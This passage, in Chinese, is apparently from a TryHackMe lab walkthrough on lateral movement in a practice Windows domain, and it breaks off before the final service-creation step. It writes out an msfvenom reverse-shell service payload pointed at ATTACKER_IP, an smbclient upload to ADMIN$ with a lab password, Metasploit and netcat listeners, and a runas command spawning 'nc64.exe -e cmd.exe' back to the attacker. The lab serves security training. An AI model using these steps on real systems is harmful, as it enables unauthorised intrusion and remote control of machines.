 :::tip

因为你将与其他人共享实验室，所以你会希望使用不同的文件名来命名你的有效负载，而不是使用 “myservice.exe”，以避免覆盖其他人的有效负载。

:::

```shell title="AttackBox"
user@AttackBox$ msfvenom -p windows/shell/reverse_tcp -f exe-service LHOST=ATTACKER_IP LPORT=4444 -o myservice.exe
```

我们接下来将使用 `t1_leonard.summers` 的凭据，通过 AttackBox 上的 `smbclient` 将我们的有效负载上传到 `THMIIS` 的 `ADMIN$` 共享目录。

```shell title="AttackBox"
user@AttackBox$ smbclient -c 'put myservice.exe' -U t1_leonard.summers -W ZA '//thmiis.za.tryhackme.com/admin$/' EZpass4ever
 putting file myservice.exe as \myservice.exe (0.0 kb/s) (average 0.0 kb/s)
```

一旦我们的可执行文件上传完成，我们会在攻击者的机器上设置监听器，以便从 msfconsole 中接收来自反向 shell 的连接。

```shell title="AttackBox"
user@AttackBox$ msfconsole
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set LHOST lateralmovement
msf6 exploit(multi/handler) > set LPORT 4444
msf6 exploit(multi/handler) > set payload windows/shell/reverse_tcp
msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.10.10.16:4444
```

或者，您可以在 Linux 控制台上运行以下一行命令来执行相同的操作：

```shell title="AttackBox"
user@AttackBox$ msfconsole -q -x "use exploit/multi/handler; set payload windows/shell/reverse_tcp; set LHOST lateralmovement; set LPORT 4444;exploit"
```

由于 `sc.exe` 不允许我们在命令中指定凭据，我们需要使用 `runas` 来使用 `t1_leonard.summers` 的访问令牌生成一个新的 shell。但是，我们只能通过 SSH 访问该机器，所以如果我们尝试类似 `runas /netonly /user:ZA\t1_leonard.summers cmd.exe` 的命令，新的命令提示符会在用户的会话中生成，但我们无法访问它。为了克服这个问题，我们可以使用 `runas` 生成一个第二个具有 `t1_leonard.summers` 访问令牌的反向 shell：

```powershell title="THMJMP2: Command Prompt"
C:\> runas /netonly /user:ZA.TRYHACKME.COM\t1_leonard.summers "c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4443"
```

:::tip

记住，由于你在使用带有 /netonly 选项的 runas，它不会检查提供的凭据是否有效，所以务必正确输入密码。如果不正确，你稍后会看到一些 “拒绝访问” 错误。

:::

我们可以像往常一样在我们的 AttackBox 上使用 nc 接收反向 shell 连接：

```shell title="AttackBox"
user@AttackBox$ nc -lvp 4443
```

最后，我们可以使用 sc 远程创建一个新服务，并将其与我们上传的二进制文件关联起来：
